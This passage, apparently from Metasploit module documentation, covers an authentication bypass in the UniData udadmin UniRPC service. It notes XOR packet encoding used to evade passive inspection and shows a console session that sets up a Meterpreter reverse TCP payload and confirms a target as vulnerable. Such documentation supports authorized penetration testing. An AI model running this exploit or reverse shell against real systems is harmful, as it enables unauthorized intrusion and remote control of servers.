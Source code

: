 In the UniRPC header, there is a bit that enables packet encoding. If set, the
packet body is XOR'd with either 1 or 2, depending on another header field.
While it's not strong encoding by any means, it does hide the exploit from
passive inspection. We set the encoding the XOR'ing with 2 by default.

## Scenarios

### Version 8.2.4 with root user

```
  msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
  [*] Using configured payload linux/x64/meterpreter/reverse_tcp

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST 10.0.0.179
  LHOST => 10.0.0.179

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
  RHOST => 10.0.0.198

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
  VERBOSE => true

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

  Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     RHOSTS           10.0.0.198       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT            31438            yes       The target port (TCP)
     SRVHOST          0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
     SRVPORT          8080             yes       The local port to listen on.
     SSL              false            no        Negotiate SSL for incoming connections
     SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
     UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0)
     UNIRPC_UID       0                yes       uid to authenticate with (must match the username)
     UNIRPC_USERNAME  root             yes       Username to authenticate with (must match the uid)
     URIPATH                           no        The URI to use for this exploit (default is random)

  Payload options (linux/x64/meterpreter/reverse_tcp):

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  10.0.0.179       yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port

  Exploit target:

     Id  Name
     --  ----
     0   Default

  View the full module info with the info, or info -d command.

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

  [*] Started reverse TCP handler on 10.0.0.179:4444 
  [*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
  [+] 10.0.0.198:31438 - The target is vulnerable.
```
